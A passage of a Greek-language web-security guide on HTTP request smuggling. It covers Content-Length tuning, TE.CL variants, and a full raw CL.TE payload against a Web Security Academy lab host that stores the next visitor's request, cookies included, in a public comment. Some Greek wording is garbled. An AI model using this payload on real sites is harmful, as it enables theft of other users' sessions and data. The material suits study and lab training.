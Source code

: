 Είναι σημαντικό να ευθυγραμμίσετε την κεφαλίδα `Content-Length` του εμφωλευμένου αιτήματος με το πραγματικό μήκος περιεχομένου. Ξεκινώντας με μια μικρή τιμή και αυξάνοντάς τη σταδιακά είναι συμβουλευτικό, καθώς μια πολύ χαμηλή τιμή θα περικόψει τα αντανακλώμενα δεδομένα, ενώ μια πολύ υψηλή τιμή μπορεί να προκαλέσει σφάλμα στο αίτημα.

Αυτή η τεχνική είναι επίσης εφαρμόσιμη στο πλαίσιο μιας ευπαθότητας TE.CL, αλλά το αίτημα πρέπει να τερματίζεται με `search=\r\n0`. Ανεξάρτητα από τους χαρακτήρες αλλαγής γραμμής, οι τιμές θα προστεθούν στην παράμετρο αναζήτησης.

Αυτή η μέθοδος εξυπηρετεί κυρίως την κατανόηση των τροποποιήσεων αιτημάτων που πραγματοποιούνται από τον εμπρόσθιο διακομιστή, εκτελώντας ουσιαστικά μια έρευνα προς τον εαυτό του.

### Καταγραφή αιτημάτων άλλων χρηστών <a href="#capturing-other-users-requests" id="capturing-other-users-requests"></a>

Είναι εφικτό να καταγράψετε τα αιτήματα του επόμενου χρήστη προσθέτοντας ένα συγκεκριμένο αίτημα ως την τιμή μιας παραμέτρου κατά τη διάρκεια μιας λειτουργίας POST. Έτσι μπορεί να επιτευχθεί: 

Προσθέτοντας το ακόλουθο αίτημα ως τιμή μιας παραμέτρου, μπορείτε να αποθηκεύσετε το αίτημα του επόμενου πελάτη:
```
POST / HTTP/1.1
Host: ac031feb1eca352f8012bbe900fa00a1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 319
Connection: keep-alive
Cookie: session=4X6SWQeR8KiOPZPF2Gpca2IKeA1v4KYi
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: ac031feb1eca352f8012bbe900fa00a1.web-security-academy.net
Content-Length: 659
Content-Type: application/x-www-form-urlencoded
Cookie: session=4X6SWQeR8KiOPZPF2Gpca2IKeA1v4KYi

csrf=gpGAVAbj7pKq7VfFh45CAICeFCnancCM&postId=4&name=asdfghjklo&email=email%40email.com&comment=
```
Σε αυτό το σενάριο, το **παράμετρος σχολίου** προορίζεται να αποθηκεύσει το περιεχόμενο εντός της ενότητας σχολίων ενός δημόσια προσβάσιμης σελίδας. Συνεπώς, το περιεχόμενο του επόμενου αιτήματος θα εμφανιστεί ως σχόλιο.

Ωστασούν, αυτή η τεχνική έχει περιορισμούς. Γενικά, αποθανατίζει δεδομένα μόνο μέχρι τον διαχωριστικό παραμέτρου που χρησιμοποιείται στο κλοπομένο αίτημα. Για τις υποβολές φόρμας κωδικοποιημένες σε URL, αυτός ο διαχωριστικός χαρακτήρας είναι το σύμβολο `&`. Αυτό σημαίνει ότι το καταγεγραμμένο περιεχόμενο από το αίτημα του χρήστη θύματος θα σταματήσει στο πρώτο `&`, το οποίο μπορεί ακόμη να αποτελεί μέρος της συμβολοσειράς ερωτήματος.

Επιπλέον, αξίζει να σημειωθεί ότι αυτή η προσέγγιση είναι εφικτή και με μια ευπάθεια TE.CL. Σε τέτοιες περιπτώσεις, το αίτημα θα πρέπει να ολοκληρωθεί με `search=\r\n0`. Ανεξάρτητα από τους χαρακτήρες αλλαγής γραμμής, οι τιμές θα προστεθούν στην παράμετρο αναζήτησης.
